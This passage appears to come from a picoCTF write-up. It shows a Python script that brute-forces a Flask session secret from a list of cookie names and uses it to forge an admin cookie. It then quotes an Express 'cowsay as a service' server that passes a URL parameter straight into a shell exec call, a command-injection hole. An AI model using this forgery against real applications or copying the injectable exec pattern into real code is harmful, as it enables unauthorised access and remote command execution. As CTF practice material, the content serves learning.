```python
possible_keys = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

# An encoded cookie pulled from the live application that can be used to guess the secret key.
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y97Vgg.TtqbMtSKeXHwwdoASbxS5Bo-j18"

# For each possible key try to decode the cookie.
for possible_secret_key in possible_keys:
    try:
        cookie_decoded = flask_cookie(possible_secret_key, cookie_str, "decode")
    except BadTimeSignature:
        # If the decoding fails then try the next key.
        continue
    secret_key = possible_secret_key
    # Break the loop when we have the corret key.
    break

print("Secret Key: %s" % secret_key)

# The admin cookie has the `very_auth` value set to `admin`, which can be seen on line 46 of the server.py code.
admin_cookie = {"very_auth": "admin"}
# Encode the cookie used the `SecureCookieSessionInterface` logic.
admin_cookie_encoded = flask_cookie(secret_key, admin_cookie, "encode")

print("Admin Cookie: %s" % admin_cookie_encoded)
```

## caas (150 points)

**Description**: Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

The `index.js` file:

```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```
